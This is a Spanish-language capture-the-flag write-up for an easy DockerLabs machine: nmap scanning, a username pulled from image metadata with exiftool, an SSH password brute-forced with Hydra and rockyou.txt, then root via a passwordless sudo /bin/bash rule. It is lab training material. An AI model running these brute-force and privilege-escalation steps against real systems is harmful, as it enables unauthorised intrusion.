 # Write-up - Escalada con Esteganografía

**Sitio:** DockerLabs  
**Dificultad:** Muy Fácil  
**Fecha:** 31/05/2025  
**Aprendizaje:** Refresqué conceptos de esteganografía aplicados a pentesting, utilizando herramientas como `ExifTool` y `steghide` (aunque esta última no me sirvió para esta máquina) para extraer información oculta. Además, repasé el uso de `sudo -l` para identificar vectores de escalada de privilegios.

---

## Enumeración y acceso inicial

### 1. Escaneo de puertos

`sudo nmap -sSV -O 10.88.0.2`

> Resultado:

* 22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2
* 80/tcp open  http    Apache httpd 2.4.59
* Sistema operativo: Linux 4.X | 5.X

---

### 2. Análisis de imagen descargada

Se descarga una imagen del sitio y se renombra como `IMG`. Luego se analiza con:

`exiftool IMG`

> Resultado:  

Se encuentra un metadato que revela el nombre de usuario: `borazuwarah`.

---

### 3. Ataque de fuerza bruta con Hydra

`hydra -l borazuwarah -P rockyou.txt -V ssh://10.88.0.2`

> Credenciales encontradas:  

Usuario: `borazuwarah`      
Contraseña: `123456`   

---

### 4. Verificación de permisos sudo

`sudo -l`

> Resultado:

`User borazuwarah may run the following commands on 99533418d0c8:`  
`(ALL : ALL) ALL`  
`(ALL) NOPASSWD: /bin/bash`  

> El usuario puede ejecutar `/bin/bash` como cualquier otro usuario sin necesidad de contraseña.

---

### 5. Escalada de privilegios

`sudo /bin/bash`

ó directamente:

`sudo su`

---

### 6. Verificación

> whoami = `root`
